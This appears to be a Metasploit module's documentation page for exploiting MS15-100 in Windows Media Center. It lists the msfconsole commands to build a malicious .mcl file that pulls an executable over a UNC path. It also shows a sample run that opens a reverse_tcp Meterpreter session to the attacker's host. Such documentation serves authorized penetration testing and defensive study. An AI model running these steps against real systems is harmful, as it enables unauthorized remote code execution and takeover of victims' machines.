 ## Vulnerable Application

This module exploits a vulnerability in Windows Media Center. By supplying an UNC path in the .mcl file, a remote file will be automatically downloaded, which can result in arbitrary code execution.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/ms15_100_mcl_exe`
3. Do: `set FILENAME [filename.mcl]`
4. Do: `set FILE_NAME [filename.exe]`
5. Do: `set payload [windows/meterpreter/reverse_tcp]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Scenarios

### A run on Windows Vista (Build 6000) and Kali Linux 2019.3
  ```
  msf > use exploit/windows/fileformat/ms15_100_mcl_exe
  msf exploit(windows/fileformat/ms15_100_mcl_exe) >  set FILENAME file.mcl
    FILENAME => file.mcl
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set FILE_NAME file.exe
    FILE_NAME => file.exe
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/ms15_100_mcl_exe) > exploit
    [*] Server started.
    [*] Malicious executable at \\192.168.1.3\Egoj\file.exe...
    [*] Creating 'file.mcl' file ...
    [+] file.mcl stored at /root/.msf4/local/file.mcl
    [*] Sending stage (180291 bytes) to 192.168.1.2
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.2:49248) at 2019-11-27 10:11:45 -0700
  ```
